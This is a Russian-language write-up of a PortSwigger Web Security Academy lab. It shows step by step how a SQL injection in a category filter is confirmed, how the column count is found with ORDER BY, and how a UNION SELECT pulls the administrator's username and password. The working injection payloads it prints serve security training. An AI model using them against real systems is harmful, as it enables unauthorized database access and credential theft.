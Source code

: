 ```yaml
---
title: "SQL injection UNION attack, finding a column containing text"
date: 2025-06-19
tags: [sql, writeup]
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)


## Scope

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


## Solution

Известно, что уязвимость находится в фильтре категорий, поэтому сразу возьму его.

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/filter?category=Pets
```

Нужно подобрать обрамление. Пусть запрос выглядит следующим образом:

```sql
SELECT * FROM table WHERE category = 'Pets'
```

Протестирую пейлоад:

```
Pets' and 0=1-- -
```

![IMG](/assets/images/IMG_SQLinjection-UNION-attack-retrieving-data-from-other-tables/1.png){: height="200" .align-center}

Страница пустая, значит для обрамления используются одинарные кавычки. Теперь узнаю количество полей в запросе с помощью `ORDER BY`:

```
Pets' ORDER BY 10-- -Error
Pets' ORDER BY 5-- -Error
Pets' ORDER BY 3-- -Error
Pets' ORDER BY 2-- -Ok
```

Значит в запросе 2 параметра. Использую `UNION`, чтобы отобразить данные:

```
Pets' and false UNION SELECT NULL, NULL-- -Ok
Pets' and false UNION SELECT 1, 2-- -Error
Pets' and false UNION SELECT '1', '2'-- -Ok
```

Теперь попробую добавить поля `username` и `password`:

```
Pets' and false UNION SELECT username, password FROM users WHERE username = 'administrator'-- -ok
```

![IMG](/assets/images/IMG_SQLinjection-UNION-attack-retrieving-data-from-other-tables/2.png){: height="200" .align-center}

Получил креды: `administrator`:`5j1o1b7ls5ltyvanoo42`. Зайду в аккаунт: 

![IMG](/assets/images/IMG_SQLinjection-UNION-attack-retrieving-data-from-other-tables/3.png){: height="200" .align-center}

Ну, все. Я получил власть...
